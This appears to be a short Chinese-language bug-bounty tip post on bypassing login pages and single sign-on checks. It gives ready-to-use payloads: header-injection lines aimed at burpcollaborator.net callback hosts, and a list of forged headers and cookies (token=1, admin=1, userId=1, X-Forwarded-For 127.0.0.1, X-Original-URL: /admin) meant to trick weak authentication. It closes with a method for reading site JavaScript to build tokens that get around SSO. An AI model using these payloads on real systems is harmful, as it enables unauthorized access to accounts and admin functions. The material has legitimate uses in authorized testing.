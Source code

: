    
    X-Forwarded-For: a.burpcollaborator.net  
    True-Client-IP: b.burpcollaborator.net  
    Referer: http://c.burpcollaborator.net/

![](https://gitee.com/fuli009/images/raw/master/public/20230317155135.png)img

# 登陆口的跳转

这里分享两种情况，一个是我自己的 一个是pmiaowu师傅的

## pmiaowu师傅的分享

有时候，设计统一登录链接(SSO)各种站点的时候，判断是否登录，不会去真的获取登录信息，为了减少请求压力，都是判断数据包某个值是否存在，值可能就是下面的某个字段

    
    
    header头加:  
        Authorization: JWT 1  
        ticket: 1  
        token: 1  
    Cookie添加:  
        ticket=1;  
        Authorization=JWT 1;  
        token=1;  
        user=1;  
        userId=1;  
        UserId=1;  
        admin=1;  
        adminId=1;  
        adminid=1;  
        AdminId=1;  
        Adminid=1;  
        xh=1;  
        xuehao=1;  
        gh=1;  
        gonghao=1;  
        username=1;  
    header头加:  
        X-Forwarded-For: 10.10.10.10  
        x-originating-ip: 127.0.0.1  
        x-remote-ip: 127.0.0.1  
        x-remote-addr: 127.0.0.1  
        X-Real-IP: 192.168.1.1  
        X-Original-URL: /admin

## 自我分享

相关src平台的报告有期间查看时间，所以这边看不了就没有图了，主要就是对于一些统一的单点登录(SSO)验证的接口的跳转302，有时候你会看到在跳转之前还会有相关的登录显示，这种情况下可以尝试去观察下js的代码，去发现相关的登录接口构造账号密码的参数进行登陆，如果成功获取token的话那么就可以绕过单点登录，构造token来进行登陆单系统.

###  **来源**
